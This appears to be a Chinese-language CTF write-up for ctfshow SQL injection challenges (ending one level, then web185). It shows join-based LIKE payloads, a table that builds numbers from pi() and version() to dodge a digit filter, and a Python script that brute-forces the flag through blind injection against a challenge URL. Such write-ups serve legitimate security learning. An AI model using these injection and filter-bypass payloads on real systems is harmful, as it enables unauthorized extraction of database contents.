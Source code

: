 ![20220725121553](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220725121553.png)


网上有大佬给出 `join` 的方法, left / right join 都行, 但 inner join 不行

`tableName=ctfshow_user as a left join ctfshow_user as b on a.pass like 0xxxxx`

`tableName=ctfshow_user as a right join ctfshow_user as b on b.pass like 0xxxx`

原理是 SQL 在用 left / right join 时会默认包含 left / right 表的内容, 然后在对被包含的那张表使用 on + like 进行模糊查询

使用别名的原因是两个都是 ctfshow_user 表需要区分一下, 不然会报错

## web185

差不多同上, 但过滤了 0-9 的数字

```
false !pi()           0     ceil(pi()*pi())           10 A      ceil((pi()+pi())*pi()) 20       K
true !!pi()           1     ceil(pi()*pi())+true      11 B      ceil(ceil(pi())*version()) 21   L
true+true             2     ceil(pi()+pi()+version()) 12 C      ceil(pi()*ceil(pi()+pi())) 22   M
floor(pi())           3     floor(pi()*pi()+pi())     13 D      ceil((pi()+ceil(pi()))*pi()) 23 N
ceil(pi())            4     ceil(pi()*pi()+pi())      14 E      ceil(pi())*ceil(version()) 24   O
floor(version())      5     ceil(pi()*pi()+version()) 15 F      floor(pi()*(version()+pi())) 25 P
ceil(version())       6     floor(pi()*version())     16 G      floor(version()*version()) 26   Q
ceil(pi()+pi())       7     ceil(pi()*version())      17 H      ceil(version()*version()) 27    R
floor(version()+pi()) 8     ceil(pi()*version())+true 18 I      ceil(pi()*pi()*pi()-pi()) 28    S
floor(pi()*pi())      9     floor((pi()+pi())*pi())   19 J      floor(pi()*pi()*floor(pi())) 29 T
```

用上表绕过 (我自己比较懒... 就直接用 true 一直加)

脚本写的比较乱, 主要是用 `concat() + char()` 函数配合 `true` 一直加构造 payload

注意百分号

```python
import time
import requests

flag = ['c','t','f','s','h','o','w','{']

dicts='{1234567890-qwertyuiopasdfghjklzxcvbnm}'

def tofunc(n):
    strs = ''
    for _ in range(n):
        strs += '+true'
    return 'char(' + strs + ')'

for i in range(1,64):
    for s in dicts:
        payload = flag + list(s)
        payload.append('%')
        concat_payload = 'concat(' + ','.join([tofunc(ord(x)) for x in payload]) + ')'
        data = {'tableName': 'ctfshow_user group by pass having pass like {}'.format(concat_payload)}
        url = 'http://0f317f70-eec6-43b0-bc0a-f8e0eb4bb961.challenge.ctf.show/select-waf.php'
        res = requests.post(url,data=data)
        if res.text.find('$user_count = 0') == -1:
            flag.append(s)
            print(''.join(flag))
            time.sleep(3)
            break
```
